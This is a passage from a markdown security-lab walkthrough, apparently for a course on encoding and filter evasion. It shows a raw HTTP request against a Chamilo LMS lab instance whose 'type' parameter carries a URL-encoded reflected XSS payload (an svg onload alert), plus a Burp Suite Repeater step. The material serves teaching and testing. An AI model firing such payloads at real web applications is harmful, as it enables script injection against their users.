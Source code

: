 ```http
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Request`:
```http
GET /main/calendar/agenda_list.php?type=personal'%20%22%3e%3csvg%20onload%3dalert(1)%2f%2f-- HTTP/2 📌
Host: e9rkq8lenrm2q6cbn09m2173h.eu-central-6.attackdefensecloudlabs.com
Cookie: ch_sid=t6d0u4jtrungkuui4jnqr32445; TestCookie=cookies_yes
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

![Lab - Chamilo LMS 3](./assets/encoding_filtering_and_evasion_basics_lab_chamilo_lms_3.png)

`burpsuite` > `Repeater`
